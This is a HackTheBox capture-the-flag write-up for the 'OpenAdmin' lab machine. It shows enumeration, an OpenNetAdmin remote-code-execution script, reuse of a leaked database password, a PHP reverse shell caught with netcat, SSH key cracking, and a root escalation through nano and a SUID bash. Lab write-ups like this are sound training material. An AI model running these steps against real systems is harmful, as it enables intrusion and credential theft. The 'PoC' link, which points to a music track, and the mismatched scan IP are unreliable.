






# OpenAdmin - Easy

Target IP: **10.129.78.37**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.62.41 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.29.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to the website shows us the default installation page of Apache2.



Let's enumerate further. We get a few interesting hits.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.78.37/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.78.37/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

hsciIiDT                [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 16ms]
music                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 9ms]
artwork                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 12ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 9ms]
sierra                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 14ms]
:: Progress: [87651/87651] :: Job [1/1] :: 2197 req/sec :: Duration: [0:00:37] :: Errors: 0 ::
```

The first result is a false positive, and the remaining three all have their own home pages.





Let's enumerate further on each of the three directories.

```/music``` gets us an interesting one, ```/Source```.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.78.37/music/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.78.37/music/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 12554, Words: 764, Lines: 356, Duration: 714ms]
css                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 11ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 9ms]
img                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2706ms]
Source                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 24ms]
                        [Status: 200, Size: 12554, Words: 764, Lines: 356, Duration: 23ms]
:: Progress: [87651/87651] :: Job [1/1] :: 938 req/sec :: Duration: [0:01:03] :: Errors: 0 ::
```

Nothing too special on ```/artwork```.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.78.37/artwork/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.78.37/artwork/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 9ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 14ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1651ms]
                        [Status: 200, Size: 14461, Words: 4026, Lines: 372, Duration: 1658ms]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
                        [Status: 200, Size: 14461, Words: 4026, Lines: 372, Duration: 114ms]
:: Progress: [87651/87651] :: Job [1/1] :: 636 req/sec :: Duration: [0:01:25] :: Errors: 0 ::
```

```/sierra``` gets us ```/vendors```, which is interesting.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.78.37/sierra/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.78.37/sierra/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 63ms]
js                      [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 13ms]
                        [Status: 200, Size: 43029, Words: 14866, Lines: 589, Duration: 2630ms]
img                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 2679ms]
fonts                   [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 21ms]
vendors                 [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 27ms]
                        [Status: 200, Size: 43029, Words: 14866, Lines: 589, Duration: 66ms]
:: Progress: [87651/87651] :: Job [1/1] :: 653 req/sec :: Duration: [0:01:41] :: Errors: 0 ::
```

```/music/Source``` has directory listing enabled, and we can see ```.zip``` files that seem like software that the website uses. We get a lot of version numbers, so let's keep that in mind.



```/sierra/vendors``` also has directory listing enabled, and there are folders indicating the software that the website uses as well.



Since we can see the version numbers in ```/music/Source```, let's look for publicly disclosed vulnerabilities there.

No clear results come up.

Let's explore a bit more of the websites.

Clicking the log in button on ```/music``` leads us to a completely different page. This is for version 18.1.1 of OpenNetAdmin.



This is vulnerable to CVE-2019-25065, an unauthenticated RCE vulnerability.

I found a [PoC](https://open.spotify.com/track/13mYAJuQrwUTYQlCtSBM9R?si=d63b8523a5a44fcf) here, let's try it.

Executing the script gets us a shell as ```www-data```.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/OpenAdmin]
└─$ python3 ona-rce.py exploit http://10.129.78.37/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ whoami
www-data
```

```jimmy``` and ```joanna``` are in ```/home```. 

```
sh$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Nov 22  2019 .
drwxr-xr-x 24 root   root   4096 Aug 17  2021 ..
drwxr-x---  5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x---  5 joanna joanna 4096 Jul 27  2021 joanna
```

After digging around, we find a cleartext password.

```
www-data@openadmin:/var/www/ona/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

This password works for ```jimmy```.

```
┌──(y㉿peacebreaker)-[~]
└─$ ssh jimmy@10.129.78.37                        
The authenticity of host '10.129.78.37 (10.129.78.37)' can't be established.
ED25519 key fingerprint is: SHA256:wrS/uECrHJqacx68XwnuvI9W+bbKl+rKdSh799gacqo
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.78.37' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jimmy@10.129.78.37's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  9 00:13:18 UTC 2026

  System load:  0.16              Processes:             185
  Usage of /:   31.3% of 7.81GB   Users logged in:       0
  Memory usage: 11%               IP address for ens160: 10.129.78.37
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$ whoami
jimmy
```

```jimmy``` is the ```internal``` group.

```
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

In ```/var/www```, there is an ```/internal``` directory. There is probably another web server running. Let's check the Apache2 configs.

Indeed, there is a site running as ```joanna```.

```
jimmy@openadmin:/etc/apache2/sites-enabled$ cat internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

We could place a reverse shell php script in the web root and use curl to access it, executing the script.

Let's try it.

After running the curl command, we catch a shell as ```joanna```.

```
jimmy@openadmin:/var/www/internal$ curl http://127.0.0.1:52846/shell.php
```

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -lvnp 4444                          
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.78.37] 33808
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 00:33:27 up  4:22,  1 user,  load average: 0.06, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jimmy    pts/2    10.10.16.68      00:13    1.00s  0.08s  0.00s curl http://127.0.0.1:52846/shell.php
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
joanna
```

We can proceed to get the user flag from here.

## Root Flag

Let's transfer out ```joanna```'s private key and crack the passphrase.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/OpenAdmin]
└─$ ssh2john id_rsa > hash
                                                                                                                                                                        
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/OpenAdmin]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Created directory: /home/y/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)     
1g 0:00:00:03 DONE (2026-10-08 20:42) 0.3278g/s 3139Kp/s 3139Kc/s 3139KC/s bloodninjas..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I was having trouble with shell upgrades, so I just decided to log in through ssh for stability.

```
joanna@openadmin:~$ whoami
joanna
```

We can run ```/bin/nano /opt/priv``` as ```root```.

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

We can enter a command to execute within nano. Let's create a copy of bash with the SUID bit set.



After running this, we get ```root```.

```
joanna@openadmin:/tmp$ ls
bash                                                                              systemd-private-64309faaebf44795b6eb8a17de255ada-systemd-timesyncd.service-rfCIx6
systemd-private-64309faaebf44795b6eb8a17de255ada-apache2.service-v07T16           vmware-root_687-4022112208
systemd-private-64309faaebf44795b6eb8a17de255ada-systemd-resolved.service-1XwbiV
joanna@openadmin:/tmp$ /tmp/bash -p
bash-4.4# whoami
root
```

We can proceed to get the root flag from here

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
